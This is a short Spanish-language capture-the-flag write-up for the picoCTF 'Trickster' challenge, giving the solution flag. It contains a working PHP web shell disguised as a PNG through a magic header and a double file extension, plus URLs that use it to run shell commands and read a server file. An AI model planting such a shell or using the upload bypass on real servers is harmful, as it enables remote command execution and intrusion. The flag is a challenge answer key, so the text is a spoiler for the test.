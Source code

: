 
## Trickster
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:60892/)!


Hints:
(None)



## Solución:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}

//Crear el archivo
wshell.php y después cambiar a wshell.png.php
PNG
<?php
if(isset($_GET['cmd'])){
     echo "<pre>";
     system($_GET['cmd']);
     echo "<pre>";
}
?>

//Con este ver en que carpeta estamos
http://atlas.picoctf.net:60892/uploads/wshell.png.php?cmd=pwd

//Entramos aquí , y ver en que carpeta estamos y regresarnos con ls ..
http://atlas.picoctf.net:60892/uploads/wshell.png.php?cmd=ls%20..
PNG
GNTDOMBWGIZDE.txt
index.php
instructions.txt
robots.txt
uploads



Parte:
http://atlas.picoctf.net:60892/uploads/wshell.png.php?cmd=cat%20../GNTDOMBWGIZDE.txt
Entrar ahí y copiar el nombre del archivo, pero ponerle cat primero- cat ../GNTDOMBWGIZDE.txt
GNTDOMBWGIZDE.txt



Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
PNG

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222} */

```